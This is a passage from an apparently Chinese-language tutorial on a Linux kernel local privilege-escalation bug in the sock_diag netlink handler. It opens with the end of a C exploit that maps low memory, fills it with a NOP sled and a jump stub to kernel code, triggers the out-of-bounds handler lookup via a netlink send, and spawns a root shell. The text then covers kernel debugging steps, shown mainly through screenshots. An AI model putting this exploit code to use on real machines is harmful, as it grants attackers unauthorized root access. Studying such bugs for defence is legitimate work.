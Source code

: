 ```
        exit(1);
        `}`
      family = (nl_table - sock_diag_handlers) / 8;
      printf("family=%dn",family);
      if(family&gt;255)`{`
        printf("nl_table is too far!n");
        exit(1);
        `}`
      req.r.sdiag_family = family;
    unsigned long mmap_start, mmap_size;
    mmap_start = 0xfffd0000;
    mmap_size = 0x20000;
    printf("mmapping at 0x%lx, size = 0x%lxn", mmap_start, mmap_size);
        if (mmap((void*)mmap_start, mmap_size, PROT_READ|PROT_WRITE|PROT_EXEC,
                MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) == MAP_FAILED) `{`
                printf("mmap faultn");
                exit(1);
        `}`
    memset((void*)mmap_start, 0x90, mmap_size); //将申请的内存区域全部填充为nop
    char jump[] = "x55x48x89xe5x48xb8x11x11x11x11x11x11x11x11xffxd0x5dxc3"; // jump_payload in asm
    unsigned long *asd =(unsigned long *)&amp;jump[6];  
    //将x11全部替换成kernel_code
    *asd = (unsigned long)kernel_code;
     printf("[+] kernel_code: %pn",(void *) kernel_code);
    //把jump_payload放进mmap的内存的最后
    memcpy( (void*)mmap_start+mmap_size-sizeof(jump), jump, sizeof(jump));

    send(fd, &amp;req, sizeof(req), 0); //发送socket触发漏洞
    printf("uid=%d, euid=%dn",getuid(), geteuid() );
    system("/bin/sh");
`}`
```

### <a class="reference-link" name="%E8%B0%83%E8%AF%95%E8%BF%87%E7%A8%8B"></a>调试过程

首先，要下内核断点，这里选取的是**__sock_diag_rcv_msg**函数，它离调用点很近。

[![](https://p0.ssl.qhimg.com/dm/1024_463_/t016f9635934ba142c3.png)](https://p0.ssl.qhimg.com/dm/1024_463_/t016f9635934ba142c3.png)

其次，查看结构体**netlink_table**的子结构体**nl_pid_hash**的子成员**rehash_time**的值。多次调试可以知道取值范围。

[![](https://p4.ssl.qhimg.com/t01ad8ae670d2051453.png)](https://p4.ssl.qhimg.com/t01ad8ae670d2051453.png)

然后，查看（dump **）函数的汇编代码流程，查看正常和溢出时不一样的变化。**

** [![](https://p2.ssl.qhimg.com/t01dd653c6690e917f7.png)](https://p2.ssl.qhimg.com/t01dd653c6690e917f7.png)<br>**

** 可以看出，正常rax已经为零，不再去执行(dump**)函数，而伪造的继续执行。

[![](https://p1.ssl.qhimg.com/t01c126849e2996701d.png)](https://p1.ssl.qhimg.com/t01c126849e2996701d.png)
